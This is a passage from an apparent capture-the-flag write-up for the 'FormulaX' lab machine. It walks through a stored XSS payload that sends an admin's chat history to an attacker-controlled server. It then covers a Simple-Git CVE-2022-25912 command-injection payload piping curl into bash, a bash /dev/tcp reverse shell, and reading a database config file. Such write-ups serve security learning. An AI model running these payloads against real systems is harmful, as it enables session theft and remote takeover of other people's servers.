Let's prepare and send an script in the "Contact Us" form which, once read by the admin, will dump the admin's history, and send it to a web server controlled by us. Since we have already disclosed the `chat.js` code used to send messages to the server, we will just copy paste the lines we need.
```javascript
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
	const res = axios.get(`/user/api/chat`);
	const socket = io('/',{withCredentials: true});
	socket.on('message', (my_message) => {
		fetch("http://10.10.xxx.xxx/?d=" + my_message)
		});
	socket.emit('client_message', 'history');
});
```
Start a Python HTTP server, then  minify the script, base64-encode and send it with Repeater using the `atob()` JavaScript function (remember to add escape characters before the " character).

![formulax1 1 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/bfb42e61-323e-48c5-bb95-aedcf1878e12)

The admin's chat history is received on your HTTP server.

![formulax2 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/663ae209-0b1e-4387-8580-99268a5b44d2)

URL-decode the received history, a subdomain called http://dev-git-auto-update.chatbot.htb is revealed.

![112Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/fccee468-5c03-4ceb-818f-e3687be6cc0c)

Add to hosts file and browse with Firefox.

![formulax888 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/f8981efa-ba71-4ff6-84bd-ffeab68206d8)

The site is made with Simple-Git 3.14. You can find it has a history of CVEs, the most interesting is this: https://www.cvedetails.com/cve/CVE-2022-25912, and the associated POC: https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221<br>
<br>
Serve an `index.html` file containing a reverse shell.
```markdown
> cat index.html
bash -i >& /dev/tcp/10.10.xxx.xxx/1919 0>&1
```
Back to Firefox, enter the POC payload `ext::sh -c curl% http://10.10.xxx.xxx|bash` in the "Enter Remote Git URL".<br>
<br>
A reverse shell for user `www-data` is received on port 1919.

![formulax5 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/75f326a7-c146-4bb8-aa7a-29b47e2ee4cb)

From this shell, navigate to `/var/www/app/configuration` and enumerate the file `connect_db.js`
```markdown
> cat connect_db.js 
import mongoose from "mongoose";

const connectDB= async(URL_DATABASE)=>{
    try{
        const DB_OPTIONS={
            dbName : "testing"
        }
        mongoose.connect(URL_DATABASE,DB_OPTIONS)
        console.log("Connected Successfully TO Database")
    }catch(error){
        console.log(`Error Connecting to the ERROR ${error}`);
    }
}
```
